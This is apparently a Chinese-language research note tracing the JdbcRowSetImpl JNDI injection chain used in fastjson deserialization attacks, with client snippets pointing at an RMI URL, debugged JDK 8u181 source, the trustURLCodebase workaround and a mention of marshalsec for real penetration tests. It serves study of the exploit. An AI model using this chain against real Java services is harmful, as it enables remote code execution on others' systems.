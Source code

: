 ### com.sun.rowset.JdbcRowSetImpl
目前要进行jndi注入，需要满足两个条件，在受害者要存在以下代码，且uri可控
```java
String uri = "xxx";
Context ctx = new InitialContext();
ctx.lookup(uri);
```
`com.sun.rowset.jdbcRowSetImpl`，是fastjson反序列化漏洞触发jndi注入的一环
查看jdbcRowSetImpl，我们客户端这样写

```java
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();//只是为了方便调用
JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/aa");
JdbcRowSetImpl_inc.setAutoCommit(true);
```
运行起来报错是jndi unable connect，web服务也没有收到请求，客户端更不会执行恶意的字节码，
打断点调试，从而也进一步分析 
**jdk 版本8u181**

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_mp9ULzn7.png)

我们在`setAutoCommit(true)`处打断点，强制进入可以看见如下代码

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_F46VvHaw.png)



```java
// JdbcRowSetImpl.java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) { //不进入
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect(); // 进入此处,进行连接
        this.conn.setAutoCommit(var1); // 设置autoCommit为true
    }

}
```
在这里我们会进行下一步连接，我们继续看，325，326 行不就是标准的jndi注入吗？ 存在`new InitialContext()`，且`lookup(this.getDataSourceName)`，DataSourceName在初始的时候是setDataSourceName的，该值我们也是可控的
```java
// JdbcRowSetImpl.java connect() 关键代码
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName()); //强制进入lookup，查看无法执行的原因
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```
又回到最开始调试JNDI注入的lookup处，我们继续跟进，进入lookup

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_MIz9ajW8.png)

再次进入lookup

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_FZufbotv.png)

进入decodeObject

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_0jlLCtks.png)

走到这里发现居然抛出了错误，但是却看不见，这个错误也就是jdk8u181 的codebase错误，需要设置 `trustURLCodebase`为true

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_3tGoJ2SW.png)

可以看到没有调用NamingManager.getObjectInstance函数，直接异常捕获了

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_NDVcHBFq.png)

最后在这里直接close掉，所以并没有去获取到恶意字节码，就直接关闭连接了

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_GWb3ec5f.png)

为了避免这个尴尬局面，我在客户端设置属性 `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");`再来尝试一下，
发现设置codebase为true之后，就可以下载恶意字节码，并实例化执行constructor函数，弹出计算器

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_DA0ImUix.png)

在实际渗透中，一般使用marshalsec启动rmi或者ldap
下载marshalsec,查看marshalsec.jndi.RMIRefServer 文件，启动参数即是 `codebase_url#classname port`  默认端口是1099

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_oOu3bTNg.png)

使用工具效果如下

![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_RHk5UCOX.png)


